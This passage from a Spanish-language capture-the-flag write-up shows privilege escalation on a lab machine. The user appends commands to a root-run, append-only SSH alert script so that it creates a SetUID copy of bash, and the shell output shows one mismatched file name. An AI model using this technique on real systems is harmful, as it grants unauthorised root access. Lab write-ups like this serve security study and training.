 ```bash
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi


svc_acc@late:~$
```

Si intentamos editarlo, vemos que no tenemos permisos:

```bash
svc_acc@late:~$ echo "" > /usr/local/sbin/ssh-alert.sh
bash: /usr/local/sbin/ssh-alert.sh: Operation not permitted
svc_acc@late:~$ 
```

Esto es debido a que el atributo `a` está seteado:

```bash
svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$
```

Para explotar esto,  vamos a crear una SetUID Bash ejecutable:

```bash
svc_acc@late:~$ echo -e "cp /bin/bash /tmp/k4mi\nchmod 4755 /tmp/k4mi"
cp /bin/bash /tmp/.0xdf
chmod 4755 /tmp/.0xdf
svc_acc@late:~$
echo -e "cp /bin/bash /tmp/k4mi\nchmod 4755 /tmp/k4mi" >> /usr/local/sbin/ssh-alert.sh
```

```bash
svc_acc@late:~$ echo -e "cp /bin/bash /tmp/k4mi\nchmod 4755 /tmp/k4mi" >> /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi


cp /bin/bash /tmp/k4mi
chmod 4755 /tmp/k4mi
svc_acc@late:~$ 
```
